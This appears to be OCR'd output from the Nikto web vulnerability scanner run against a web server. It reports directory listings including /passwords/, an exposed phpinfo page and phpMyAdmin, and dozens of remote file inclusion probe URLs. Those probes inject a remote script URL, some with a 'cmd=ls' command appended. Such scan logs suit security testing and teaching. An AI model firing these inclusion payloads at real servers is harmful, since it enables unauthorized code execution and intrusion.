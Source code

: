 ```
+ GET /config/: Configuration information may be available remotely. ←
+ OSVDB-12184: GET /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: GET /data/: Directory indexing found.
+ OSVDB-3092: GET /data/: This might be interesting...
+ OSVDB-3268: GET /includes/: Directory indexing found.
+ OSVDB-3092: GET /includes/: This might be interesting...
+ OSVDB-3268: GET /passwords/: Directory indexing found.
+ OSVDB-3092: GET /passwords/: This might be interesting...
+ OSVDB-3092: GET /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3092: GET /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: GET /test/: Directory indexing found.
+ OSVDB-3092: GET /test/: This might be interesting...
+ OSVDB-3233: GET /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3233: GET /index.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: GET /images/: Directory indexing found.
+ OSVDB-3268: GET /styles/: Directory indexing found.
+ OSVDB-3233: GET /icons/README: Apache default file found.
+ OSVDB-5292: GET /?_CONFIG[files][functions_page]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /?npage=-1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /?npage=1&content_dir=http://cirt.net/rfiinc.txt?%00&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /?show=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?1=lol&PAGES[lol]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?AML_opensite=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?AMV_openconfig=1&AMV_serverpath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?CONFIG[MWCHAT_Libs]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?ConfigDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?DIR_PLUGINS=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?G_JGALL[inc_path]=http://cirt.net/rfiinc.txt?%00: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?HomeDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?Lang=AR&Page=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?Madoa=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?RP_PATH=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid=1&GLOBALS=&mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?_REQUEST=&_REQUEST[option]=com_content&_REQUEST[Itemid]=1&GLOBALS=&mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?abg_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?abs_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
```